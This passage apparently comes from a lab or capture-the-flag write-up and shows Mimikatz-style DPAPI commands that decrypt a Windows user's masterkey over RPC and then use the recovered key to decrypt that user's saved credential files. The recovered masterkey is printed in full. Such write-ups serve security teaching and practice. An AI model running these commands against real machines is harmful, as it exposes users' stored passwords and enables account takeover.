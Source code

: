Here we can see the Masterkey that matches up - **191d3f9d-7959-4b4d-a520-a444853c47eb**

- The cache is empty atm:

```bash
dpapi::cache

```

![image72](../resources/89bdeace409f4e1cb205644f7fa0c358.png)

- Now decrypt the masterkey:

```bash
dpapi::masterkey /in:C:\Users\PPotts\AppData\Roaming\Microsoft\Protect\S-1-5-21-1199398058-4196589450-691661856-1107\191d3f9d-7959-4b4d-a520-a444853c47eb /rpc

```
- Looking at the cache now:

![image73](../resources/fd4fe3b292444486a79237966718caa2.png)

- Now we can decrypt the encrypted credentials:

```bash
dpapi::cred /in:C:\Users\PPotts\AppData\Roaming\Microsoft\Credentials\\84F1CAEEBF466550F4967858F9353FB4 /masterkey:87eedae4c65e0db47fcbc3e7e337c4cce621157863702adc224caf2eedcfbdbaadde99ec95413e18b0965dcac70344ed9848cd04f3b9491c336c4bde4d1d8166

```
